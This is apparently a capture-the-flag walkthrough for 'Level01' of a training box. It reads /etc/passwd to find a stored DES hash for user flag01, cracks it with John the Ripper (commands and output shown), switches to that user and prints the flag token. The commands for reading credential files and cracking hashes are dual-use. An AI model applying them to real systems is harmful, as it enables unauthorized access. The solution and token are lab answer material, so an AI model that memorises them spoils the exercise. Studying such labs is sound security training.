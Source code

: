[README.md](../README.md)
# Level01

```sh
cat /etc/passwd

OR

getent passwd flag01
```

`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`

Using a tool like [John the Ripper password cracker](https://www.openwall.com/john/) we can crack the password in 10ms.

```sh
└─# echo '42hDRfypTqqnw' > pass.txt


└─# john pass.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 16 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (?)
1g 0:00:00:00 DONE 2/3 (2024-02-17 13:59) 33.33g/s 3276Kp/s 3276Kc/s 3276KC/s 123456..Nelson8
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```sh
su flag01
Check flag. Here is your token: f2av5il02puano7naaf6adaaf
```